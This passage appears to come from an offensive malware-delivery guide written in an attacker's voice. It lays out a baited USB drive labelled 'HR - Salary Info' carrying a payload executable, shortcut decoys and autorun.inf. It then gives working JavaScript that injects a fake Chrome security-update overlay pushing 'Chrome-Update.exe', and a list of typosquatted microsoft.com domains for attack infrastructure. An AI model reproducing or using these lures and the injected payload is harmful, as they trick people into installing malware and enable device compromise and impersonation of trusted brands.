 
**USB Contents:**
```
📁 USB Drive (labeled "HR - Salary Info")
  ├── README.txt ("Double-click viewer to access encrypted files")
  ├── Salary-Info-Viewer.exe (our payload)
  ├── decoy_files/
  │   ├── sample.pdf.lnk (shortcut to payload)
  │   └── instructions.txt
  └── autorun.inf (auto-launch on older Windows)
```

---

### Method 4: Fake Update Popup (Advanced)

**Requires initial compromise (e.g., XSS, MitM):**

```javascript
// Inject fake browser update
var overlay = document.createElement('div');
overlay.innerHTML = `
  <div style="position:fixed; top:0; left:0; width:100%; height:100%; 
              background:rgba(0,0,0,0.9); z-index:999999;">
    <div style="background:white; margin:100px auto; width:500px; 
                padding:40px; border-radius:10px; text-align:center;">
      <img src="chrome-logo.png" style="width:80px;">
      <h2>Chrome Security Update Required</h2>
      <p>A critical security update is available.</p>
      <p><strong>Your browser may be at risk without this update.</strong></p>
      <button onclick="location.href='Chrome-Update.exe'" 
              style="background:#4285F4; color:white; padding:15px 40px; 
              border:none; border-radius:5px; font-size:16px; cursor:pointer;">
        Download Update
      </button>
    </div>
  </div>
`;
document.body.appendChild(overlay);
```

---

## 🌐 Infrastructure Setup

### Domain Registration Strategy

**1. Typosquatting**
```
Original: microsoft.com
Variants: 
- micrrosoft.com (double r)
- microssoft.com (double s)
- microsoft.co (missing m)
- rnicrosoft.com (rn looks like m)
```
